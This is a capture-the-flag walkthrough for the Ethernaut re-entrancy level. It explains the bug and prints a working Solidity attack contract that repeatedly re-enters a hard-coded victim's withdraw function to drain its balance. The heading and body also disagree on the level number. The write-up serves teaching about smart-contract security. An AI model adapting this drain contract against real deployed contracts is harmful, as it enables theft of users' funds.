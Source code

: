 # Ethernaut Level 11 (Re-entrancy) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 10. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The lesson here is to guard against Reentrancy attacks. Reentrancy means that given a situation where contract A calls contract B, contract B can call contract A while the transaction containing contract A's call to B is still executing.

#### Solution

The solution is to successfully make a reentrant call. First, create the attack contract and setup a fallback function which calls the withdraw function of the target contract. Then, create an attack function where you deposit and immediately withdraw an amount equivalent to the lowest denomination in the balance of the target contract. In this case it was 0.001 ETH, so the deposit (and withdraw) value should be 0.001 ETH. Consider the code below.

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

interface IVictim {
    function balanceOf(address _who) external returns (uint balance);
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}

contract EnterAgain {

    address victim = 0x363dD4bDD821005D7033199Eb501a42583aE668A;
    IVictim public  victimInstance;
    
    constructor() {
        victimInstance = IVictim(victim);
    }

    function attack() public payable{
        require(msg.value >= 1000000000000000);
        victimInstance.donate{value: msg.value}(address(this));
        victimInstance.withdraw(1000000000000000);
    }

    function destroy() public {
        selfdestruct(payable(0xecA5bA71FC055AF7FCdFb5755C575B67Ac48EcDF));
    }

    receive() external payable {
         if (address(victim).balance >= 1000000000000000) {
                victimInstance.withdraw(1000000000000000);
         }
                
    }
}
```